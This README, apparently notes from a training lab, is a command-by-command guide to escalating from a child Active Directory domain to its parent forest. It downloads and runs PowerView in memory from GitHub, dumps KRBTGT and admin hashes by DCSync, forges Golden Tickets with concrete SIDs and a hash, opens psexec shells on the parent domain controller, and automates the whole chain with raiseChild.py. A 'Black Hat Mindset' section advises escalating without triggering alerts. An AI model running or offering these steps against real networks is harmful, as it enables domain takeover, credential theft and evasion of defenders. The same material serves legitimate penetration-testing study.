 # Active Directory Trust Relationships (Child > Parent Trusts)

This README focuses on enumerating trust relationships between child domains (e.g., `LOGISTICS.INLANEFREIGHT.LOCAL`) and parent domains (e.g., `INLANEFREIGHT.LOCAL`), exploiting them to escalate privileges using Golden Tickets and DCSync attacks.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Enumerating Trust Relationships](#enumerating-trust-relationships)
- [Enumerating Child Domain Users and Groups](#enumerating-child-domain-users-and-groups)
- [Extracting Credentials](#extracting-credentials)
- [Creating and Using Golden Tickets](#creating-and-using-golden-tickets)
- [Escalating from Child to Parent](#escalating-from-child-to-parent)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

Trust relationships allow resource sharing between child and parent domains in an AD forest. Attackers can exploit these trusts to extract credentials (e.g., KRBTGT hash) from a child domain and forge Golden Tickets to impersonate any user in the forest, including the parent domain. This guide uses PowerView, Mimikatz, Rubeus, and Impacket to enumerate and exploit these trusts.

## Setup and Prerequisites

- **Environment**: Windows host for PowerView, Mimikatz, and Rubeus; Linux host for Impacket.
- **Active Directory Module**: Install on Windows (e.g., via RSAT tools) and import with `Import-Module ActiveDirectory`.
- **PowerView**: Load into memory on Windows:
  ```powershell
  IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
  ```
- **Mimikatz**: Download the executable on Windows (e.g., from its GitHub repo) and place in `C:\Tools\`.
- **Rubeus**: Download the executable on Windows and place in your working directory.
- **Impacket**: Install on Linux (e.g., `pip install impacket`) for `secretsdump.py`, `lookupsid.py`, `ticketer.py`, `psexec.py`, and `raiseChild.py`.
- **PowerShell**: Run with administrative privileges on Windows (right-click > "Run as Administrator").
- **Credentials**: Use compromised credentials (e.g., `INLANEFREIGHT\lafi` or `LOGISTICS.INLANEFREIGHT.LOCAL\krbtgt`) with access to the child domain.
- **Network Access**: Ensure connectivity to domain controllers (e.g., 172.16.5.5, 172.16.5.240).

## Enumerating Trust Relationships

Map trust relationships between child and parent domains:

```powershell
# Import the Active Directory module for PowerShell cmdlets (Windows host)
Import-Module ActiveDirectory

# Enumerate all trust relationships in the target Windows domain (Windows host)
Get-ADTrust -Filter *

# Use PowerView to enumerate trust relationships in the target domain (Windows host)
Get-DomainTrust

# Use PowerView to perform a comprehensive domain trust mapping (Windows host)
Get-DomainTrustMapping
```

## Enumerating Child Domain Users and Groups

Gather information from the child domain to identify attack targets:

```powershell
# Enumerate users in the LOGISTICS.INLANEFREIGHT.LOCAL child domain
Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName

# Retrieve the SID for the target child domain
Get-DomainSID

# Obtain the SID of the "Enterprise Admins" group in the parent domain
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

# List contents of the C$ share on the parent domain controller
ls \\academy-ea-dc01.inlanefreight.local\c$
```

## Extracting Credentials

Extract hashes from the child domain to support Golden Ticket creation:

```powershell
# Obtain the KRBTGT account's NT hash from the child domain (Windows host)
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt

# Perform a DCSync attack on the lab_adm user in the parent domain (Windows host)
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```

```bash
# Use Impacket to perform a DCSync attack (Linux host)
secretsdump.py logistics.inlanefreight.local/lafi@172.16.5.240 -just-dc-user LOGISTICS\krbtgt
```

## Creating and Using Golden Tickets

Forge Golden Tickets to impersonate any user in the forest:

```powershell
# Create and apply Golden Ticket using Mimikatz
mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

# Create and apply Golden Ticket using Rubeus
Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```

```bash
# Create Golden Ticket using Impacket (Linux host)
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

# Set Kerberos credential cache
export KRB5CCNAME=hacker.ccache

# Establish shell session using Golden Ticket
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@lafi-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

## Escalating from Child to Parent

Automate the escalation process using Impacket:

```bash
# Perform child-to-parent domain escalation attack
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/lafi
```

## Enumerating Domain SIDs

Identify SIDs for crafting Golden Tickets:

```bash
# Perform SID brute-forcing attack
lookupsid.py logistics.inlanefreight.local/lafi@172.16.5.240

# Extract domain SID
lookupsid.py logistics.inlanefreight.local/lafi@172.16.5.240 | grep "Domain SID"

# Get Enterprise Admins SID
lookupsid.py logistics.inlanefreight.local/lafi@172.16.5.5 | grep -B12 "Enterprise Admins"
```

## Black Hat Mindset

1. **Map the Trust**: Enumerate all trust relationships to identify child-parent dependencies.
2. **Target KRBTGT**: Extract the KRBTGT hash from the child domain as the key to forging Golden Tickets.
3. **Escalate Silently**: Use Golden Tickets to impersonate high-privilege accounts (e.g., Enterprise Admins) without triggering alerts.
4. **Automate Attacks**: Leverage tools like `raiseChild.py` to streamline child-to-parent escalation.

## Resources

- [PowerView Documentation]()
- [Mimikatz Guide]()
- [Rubeus GitHub]()
- [Impacket Guide]()
- [Golden Ticket Attacks]()

